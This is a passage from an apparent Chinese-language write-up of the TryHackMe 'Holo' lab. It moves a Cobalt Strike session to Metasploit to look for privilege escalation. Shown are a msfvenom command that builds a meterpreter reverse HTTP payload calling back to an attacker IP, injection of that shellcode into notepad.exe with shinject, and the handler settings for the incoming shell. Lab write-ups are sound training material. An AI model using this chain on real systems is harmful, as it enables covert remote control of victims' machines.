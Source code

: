  Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 4mb      fil     12/10/2020 23:34:51   kavremover.exe
```

官方说是从这个程序缺失的dll来执行提权

但是从官方描述中我没看明白是从哪里的枚举知道可以用这个程序缺失的dll文件提权的

在这里我决定使用msf自动提权枚举工具

从CS传递一个session给msf

## session passing

1. msf生成payload（支持x64)
```
┌──(root㉿kali)-[~/tryhackme/holo]
└─# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.50.111.108 LPORT=4242 -f raw -o /root/CobaltStrike/payload/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /root/CobaltStrike/payload/msf.bin
```


2. 注入进程，这里选择记事本（notepad.exe）
```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----              
 1072  4792  notepad.exe                  x64   2           HOLOLIVE\watamet

beacon> shinject 1072 x64 payload\msf.bin
```

3. msf收到rev shell
```
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter_reverse_http):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST       tun0             yes       The local listener hostname
   LPORT       4242             yes       The local listener port
   LURI                         no        The HTTP Path
